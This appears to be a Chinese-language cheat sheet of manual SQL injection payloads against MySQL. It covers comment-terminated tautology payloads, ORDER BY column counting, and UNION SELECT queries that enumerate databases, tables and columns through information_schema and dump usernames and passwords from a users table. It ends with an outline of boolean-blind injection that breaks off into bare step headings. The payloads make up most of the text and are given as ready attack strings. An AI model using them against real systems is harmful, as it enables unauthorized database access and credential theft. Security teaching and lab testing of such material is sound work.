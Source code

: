 ### 报错注入
1.**常用的注释payload**
```
	or 1=1--+
	'or 1=1--+
	"or 1=1--+
	)or 1=1--+
	')or 1=1--+
	") or 1=1--+
	"))or 1=1--+
	--+ 可以用#替换，url 提交过程中 Url 编码后的#为%23
```
2. **查询字段数目**
查询字段数目主要利用MySQL里面的 order by 来判断字段数目，order by一般采用数学中的对半查找来判断具体的字段数目
```
 order by 10 --+ (二分法)
```

3. **联合查询**
UNION SELECT 联合查询，手工注入经典语句，作用是在后面通过UNION把我们的恶意注入语句接上去，带入数据库进行查询。因为字段数目是:3,那么正规的语句如下:
```
UNION SELECT 1,2,3 --+
```
4.**获取信息**
```
version()            #MySQL版本
user()               #数据库用户名
database()           #数据库名
@@datadir            #数据库路径
@@version_compile_os #操作系统版本
```
5.**获取表名**
```
UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```
6.**获取列名**
```
UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```
7.**获取字段**
```
UNION SELECT 1,2,group_concat(id,username,password) from users --+
```
8.**总结**
```
order by –+ 判断字段数目
union select –+ 联合查询收集信息
UNION SELECT 1,2,database() –+ 查询当前数据库
UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata –+查询所有数据库
UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() –+ 查询表名
UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users' –+ 查询列名
UNION SELECT 1,2,group_concat(id,username,password) from users –+ 查询字段值
```
### 布尔注入
```
mid(str,1,3)字符串截取
ORD()转换成ascii码
Length()统计字节长度
version()查看数据库版本
database()查看数据库名
user()查看当前用户
```
1. 判断注入点
2. 获取数据库名称长度
```
and (select length (database())) = '8'
```
3. 获取数据库名称
and (select ord(substring(database(),1,1))) = 97
4. 获取表长度
5. 获取表名称
6. 获取列长度
7. 获取列名称
8. 获取数据